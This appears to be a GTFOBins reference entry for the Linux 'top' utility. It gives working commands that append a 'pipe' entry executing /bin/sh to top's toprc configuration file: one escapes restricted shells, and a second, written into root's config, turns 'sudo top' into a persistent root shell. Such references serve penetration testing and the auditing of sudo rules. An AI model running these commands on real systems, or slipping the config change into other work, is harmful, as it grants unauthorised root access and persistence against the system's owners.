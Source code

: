 # GTFOBin: top

This requires that an existing configuration file is present, to create one run `top` then type `Wq`. Note down the actual configuration file path and use it in the below examples.

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
echo -e 'pipe\tx\texec /bin/sh 1>&0 2>&0' >>~/.config/procps/toprc
top
# press return twice
reset
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

This requires that the root configuration file is writable and might be used to persist elevated privileges.

```
echo -e 'pipe\tx\texec /bin/sh 1>&0 2>&0' >>/root/.config/procps/toprc
sudo top
# press return twice
reset
```